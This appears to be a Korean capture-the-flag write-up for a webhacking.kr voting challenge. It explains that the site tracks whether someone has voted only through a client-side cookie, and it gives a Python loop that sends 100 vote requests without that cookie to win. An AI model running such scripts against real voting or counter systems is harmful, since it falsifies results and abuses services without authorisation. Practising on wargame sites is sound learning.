 # 32

## 문제

한번 누르면 다시는 누를 수 없는 숙명의 투표 시스템 같은거 같다. 내 아이디가 있는걸 보니까 내 지지자를 100명 채워서 이겨야 될듯 하다.

## 풀이

투표 여부를 클라이언트의 쿠키에서 관리한다. 없으면 투표를 할 수 있고, `vote_check` 쿠키가 `ok`이면 투표를 할 수 없다. 뭐 그럼 투표하고 쿠키 지우고를 반복하면 된다.

```python
import urllib.request

for i in range(100):
    url = r"http://webhacking.kr/challenge/codeing/code5.html?hit=itsyourname"
    req = urllib.request.Request(url)
    req.add_header("Cookie", "PHPSESSID=~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~")
    print(urllib.request.urlopen(req).read())
```

`req` 객체가 반복문을 돌면서 계속 새로 생기니 쿠키는 걱정할 필요없다.